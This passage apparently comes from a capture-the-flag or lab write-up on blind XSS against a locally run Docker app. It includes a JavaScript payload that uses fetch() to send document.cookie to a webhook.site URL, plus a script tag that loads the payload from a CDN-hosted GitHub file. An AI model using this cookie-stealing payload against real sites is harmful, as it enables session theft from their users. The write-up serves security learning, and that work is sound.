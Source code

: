 ![5-index-payload.png](./static/5-index-payload.png)

Now check the webhook.site and verify that the request was done! from the server localhost:
![5-webhook.png](./static/5-webhook.png)
> To do this type of blind test, its a good practice run the docker locally and test it there, because in this case there is no feedback in the web page, and if the request fails, we cant figuret out why fails. 

Now base on [xss injection in PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)  I found that we can grab the cookie from `document.cookie`. So I modify the payload in the github repositorie. with

```js
// xss_test2.js
fetch('https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910/?c=' + document.cookie)
```

And add it to the `<script>` tag
```
<script src="https://cdn.jsdelivr.net/gh/xmagor/test/xss_test2.js "></script>
```